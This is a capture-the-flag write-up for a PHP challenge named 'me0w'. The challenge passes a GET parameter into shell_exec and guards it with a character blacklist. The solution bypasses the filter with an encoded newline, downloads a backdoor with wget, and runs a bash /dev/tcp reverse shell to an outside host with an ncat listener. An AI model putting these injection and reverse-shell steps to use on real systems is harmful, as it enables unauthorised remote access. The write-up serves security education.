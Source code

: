 # me0w

## Description:

> 喵 🐱🐈

```php
<?php

highlight_file(__FILE__);

$waf = array("&", ";", "`", "$", "|", ">");

$me0w = str_replace("..", "", $_GET['me0w']);

for($i = 0; $i < count($waf); $i++)
    if(stripos($me0w, $waf[$i]) !== FALSE)
        die("me0w me0w!");

shell_exec("cat $me0w &> /dev/null");
```

## Solution:

Commands can be executed like the following (`sleep(3)`):

```
https://edu-ctf.csie.org:10153/?me0w=sleep 03
```

However, command outputs are not shown on the page. Thus, I need a reverse shell.

First download a backdoor as follows:

```
https://edu-ctf.csie.org:10153/?me0w=%0awget [url] -O /tmp/backdoor
```

where the url contains the following script:

```bash
bash -c 'bash -i >& /dev/tcp/kaibro.tw/5278 0>&1'
```

Open a listener:

```
root@kali:~# ncat -vlk 5278
```

Then execute the backdoor to get a reverse shell.

```
https://edu-ctf.csie.org:10153/?me0w=%0ash /tmp/backdoor
```
